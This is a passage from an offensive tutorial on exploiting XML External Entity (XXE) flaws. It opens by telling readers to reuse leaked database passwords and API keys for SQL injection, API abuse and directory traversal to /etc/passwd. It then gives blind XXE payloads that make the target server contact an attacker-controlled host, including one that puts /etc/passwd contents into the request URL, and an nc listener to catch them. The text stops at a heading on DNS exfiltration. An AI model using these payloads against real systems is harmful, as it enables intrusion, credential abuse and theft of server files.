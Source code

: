 Decoded response might show:

```php
<?php
$host = 'localhost';
$dbname = 'sensitive_db';
$user = 'db_user';
$pass = 'VerySecretPassword456!';
$api_key = 'sk_live_XXXXXXXXXXXXXXXXXXXX';
?>
```

Use these for further attacks, like SQL injection or API abuse. Chain with directory traversal if paths are unknown (e.g., `file:///../../../../etc/passwd`).

---

## 4. Blind XXE Exploitation and Out-of-Band (OOB) Exfiltration

Blind XXE occurs when entity expansion happens but results aren't reflected. Use OOB to confirm and exfiltrate.

### Step 5: HTTP OOB for Vulnerability Confirmation and Data Leakage
Force the server to request a resource from your controlled server:

```xml
<!DOCTYPE submission [
  <!ENTITY oob SYSTEM "http://your.burpcollaborator.net/xxe_test">
]>
<submission>
  <source>&oob;</source>
</submission>
```

Monitor with Burp Collaborator or a custom server:

```bash
nc -lvnp 80
```

For data exfil, embed content in the URL:

```xml
<!DOCTYPE submission [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY oob SYSTEM "http://yourserver.net/?data=%file;">
]>
<submission>
  <source>&oob;</source>
</submission>
```

Note: Use parameter entities (`%`) for DTD tricks in strict parsers.

### Step 6: DNS OOB for Restricted Environments
DNS is harder to block. Exfiltrate via subdomains:

